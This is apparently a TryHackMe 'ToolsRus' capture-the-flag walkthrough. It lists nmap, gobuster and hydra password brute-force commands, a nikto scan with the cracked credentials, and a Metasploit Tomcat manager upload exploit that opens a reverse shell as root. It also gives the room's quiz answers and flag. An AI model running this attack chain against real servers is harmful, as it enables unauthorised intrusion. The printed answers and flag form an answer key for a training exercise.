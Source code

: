 # ToolsRus Wlakthrough
### Link
- https://tryhackme.com/room/toolsrus
------------------------
### Nmap
- sudo nmap -sC -sV -p- [IP]
- Open port :   
    - 80
    - 1234 --> Apache Tomcat/Coyote JSP engine 1.1
    - 8009 --> Apache Jserv (Protocol v1.3)
- Picture: [ToolsRus_walkthrough_1.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_1.png)
- What other port that serves a webs service is open on the machine?
**Answers**: 1234
- What is the server version (run the scan against port 80)?
**Answer**: Apache/2.4.18
- What version of Apache-Coyote is this service using?
**Answer**: 1.1
------------------------
### Dirbuster
- sudo gobuster dir -u http://[IP]:[Port] -w [path]/wordlists/dirbuster/directory-list-2.3-medium.txt
- Picture: [ToolsRus_walkthrough_2.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_2.png)
- What directory can you find, that begins with a "g"?
**Answers**: /guidelines
- Whose name can you find from this directory?
**Answers**: bob
- What directory has basic authentication?
**Answer**: /protected
------------------------
### hydra
- sudo hydra -l bob -P  [path]wordlists/rockyou.txt -f 10.10.248.249 http-get /protected/
- Picture: [ToolsRus_walkthrough_3.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_3.png)
- What is bob's password to the protected part of the website?
**Answers**: bubbles
- Going to the service running on that port, what is the name and version of the software?
- Picture: [ToolsRus_walkthrough_4.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_4.png)
**Answer**: Apache Tomcat/7.0.88
------------------------
### nikto
- Log to manager with bob credentials
- Picture: [ToolsRus_walkthrough_5.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_5.png)
- sudo nikto -h http://10.10.23.90:1234/manager/html/ -id "bob:bubbles"
- How many documentation files did Nikto identify?
**Answer**: 5
------------------------
### Metasploit
- Search exploit for tomcat
    - search type:exploit name:tomcat
    - Picture: [ToolsRus_walkthrough_6.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_6.png)
- Select exploit/multi/http/tomcat_mgr_upload
    - use exploit/multi/http/tomcat_mgr_upload
    - Picture: [ToolsRus_walkthrough_7.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_7.png)
- Check settings we need to define
    - show options
    - Picture: [ToolsRus_walkthrough_8.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_8.png)
- As we can see we have : HttpPasswrod / HttpUsername / RHOSTS / RPORT / LHOSTS
    - set HttpPassword bubbles
    - set HttpUsername bob
    - set RHOSTS [IP]
    - set RPORT 1234
    - set LHOSTS [local IP machine]
        - - Picture: [ToolsRus_walkthrough_9.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_9.png) , [ToolsRus_walkthrough_10.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_10.png)
        - Let's double check if we indicate all information
        - [ToolsRus_walkthrough_11.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_11.png)
- Execute the payload
    - execution
    - [ToolsRus_walkthrough_12.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_12.png)
- When the payload is active, type these commands
    - shell
    - id
    - [ToolsRus_walkthrough_13.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_13.png)
- What user did you get a shell as?
**Answer**: root
- What text is in the file /root/flag.txt
    - cd root
    - ls
    - cat flag.txt
    - [ToolsRus_walkthrough_14.png](https://github.com/LNB283/THM/blob/main/EASY/ToolsRus/Pictures/ToolsRus_walkthrough_14.png)
**Answer**: ff1fc4a81affcc7688cf89ae7dc6e0e1